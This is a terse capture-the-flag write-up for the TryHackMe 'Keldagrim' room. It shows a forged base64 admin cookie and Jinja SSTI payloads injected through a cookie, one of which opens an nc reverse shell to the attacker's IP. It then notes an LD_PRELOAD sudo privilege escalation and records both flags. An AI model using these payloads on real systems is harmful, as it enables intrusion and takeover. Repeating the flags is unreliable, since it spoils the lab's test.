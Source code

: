 # Keldagrim 

> VOiD | Friday 13 August 2021 08:32:04 PM IST

My IP : 10.11.43.119
Target IP : 10.10.169.171

# PORT 80

check cookies
change base64d guest to admin

navigate to /admin
change base64d sale to ssti command
```bash
# to check
echo -n "{{2+2}}" | base64            
e3syKzJ9fQ==


{{ ''.__class__.__mro__[1].__subclasses__()[401]('ls',shell=True,stdout=-1).communicate()}}
e3sgJycuX19jbGFzc19fLl9fbXJvX19bMV0uX19zdWJjbGFzc2VzX18oKVs0MDFdKCdscycsc2hlbGw9VHJ1ZSxzdGRvdXQ9LTEpLmNvbW11bmljYXRlKCl9fQo=
# it works

{{ ''.__class__.__mro__[1].__subclasses__()[401]('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.43.119 4444 >/tmp/f',shell=True,stdout=-1).communicate()}}
e3sgJycuX19jbGFzc19fLl9fbXJvX19bMV0uX19zdWJjbGFzc2VzX18oKVs0MDFdKCdybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC4xMS40My4xMTkgNDQ0NCA+L3RtcC9mJyxzaGVsbD1UcnVlLHN0ZG91dD0tMSkuY29tbXVuaWNhdGUoKX19

user jed
cat user.txt 
thm{d55ac4d0a728741d7b8c23b999e73cf3}

sudo -l
Matching Defaults entries for jed on keldagrim:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User jed may run the following commands on keldagrim:
    (ALL : ALL) NOPASSWD: /bin/ps


env_keep+=LD_PRELOAD
vulnerable
https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/

user root
root.txt
thm{bf2a087f833b58df233c0f24eac3aec5}

```


